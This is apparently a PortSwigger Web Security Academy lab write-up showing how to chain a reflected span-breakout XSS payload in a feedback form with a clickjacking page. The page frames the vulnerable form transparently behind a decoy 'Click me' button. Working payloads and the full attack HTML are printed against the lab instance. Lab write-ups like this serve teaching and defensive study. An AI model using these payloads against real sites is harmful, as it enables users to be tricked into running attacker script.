 
# Exploiting clickjacking vulnerability to trigger DOM-based XSS

This lab contains an XSS vulnerability that is triggered by a click. Construct a clickjacking attack that fools the user into clicking the "Click me" button to call the print() function.

Note: The victim will be using Chrome so test your exploit on that browser.


---------------------------------------------

References: 

- https://portswigger.net/web-security/clickjacking



![img](images/Exploiting%20clickjacking%20vulnerability%20to%20trigger%20DOM-based%20XSS/1.png)

---------------------------------------------

There is a function to submit feedback:



![img](images/Exploiting%20clickjacking%20vulnerability%20to%20trigger%20DOM-based%20XSS/2.png)


It reflects the content of the name field:



![img](images/Exploiting%20clickjacking%20vulnerability%20to%20trigger%20DOM-based%20XSS/3.png)


It is inside a span tag:



![img](images/Exploiting%20clickjacking%20vulnerability%20to%20trigger%20DOM-based%20XSS/4.png)


We can exploit the XSS using the payload:

```
</span><img src=x onerror=alert(1)><span>
```



![img](images/Exploiting%20clickjacking%20vulnerability%20to%20trigger%20DOM-based%20XSS/5.png)


The fields can be populated using GET parameters:

```
/feedback?name=</span><img src=x onerror=alert(1)><span>&email=a@a.com&subject=a&message=a
```



![img](images/Exploiting%20clickjacking%20vulnerability%20to%20trigger%20DOM-based%20XSS/6.png)


So we can execute the attack with a payload like this:

```
<head>
	<style>
		#target_website {
			position:relative;
			width:600px;
			height:600px;
			opacity:0.1;
			z-index:2;
			}
		#decoy_website {
			position:absolute;
			width:600px;
			height:600px;
			z-index:1;
			}
		#btn {
			position:absolute;
			top:440px;
			left:70px;
		}
	</style>
</head>
<body>
	<div id="decoy_website">
	<button id="btn">Click me</button>
	</div>
	<iframe id="target_website" src="https://0a9500e703977b7c812c80ce00300073.web-security-academy.net/feedback?name=%3C/span%3E%3Cimg%20src=x%20onerror=print()%3E%3Cspan%3E&email=a@a.com&subject=a&message=a">
	</iframe>
</body>
```



![img](images/Exploiting%20clickjacking%20vulnerability%20to%20trigger%20DOM-based%20XSS/7.png)
